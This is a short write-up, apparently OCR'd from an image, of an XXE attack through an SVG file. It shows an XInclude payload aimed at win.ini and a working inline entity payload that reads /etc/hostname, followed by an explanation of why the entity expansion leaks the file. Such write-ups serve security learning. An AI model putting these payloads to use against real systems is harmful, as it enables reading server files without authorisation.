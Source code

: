 ```
  <!-- <xi:include href="file:///C:/Windows/win.ini" parse="text"/> -->
</svg>
```
Second:
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg ...>
  <text>&xxe;</text>
</svg>
```
The first try probably didn't work because Xinclude may not be supported. OOB may have been an option but I couldn't host a DTD. 
You define a general entity xxe in the internal subset that points to a local file.
This works because I reference &xxe; inside a <text> node.
The XML parser expands the entity in-band → it reads /etc/hostname and substitutes its contents right there.
The app (or SVG transcoder) then outputs/renders the parsed SVG, so you see the file contents.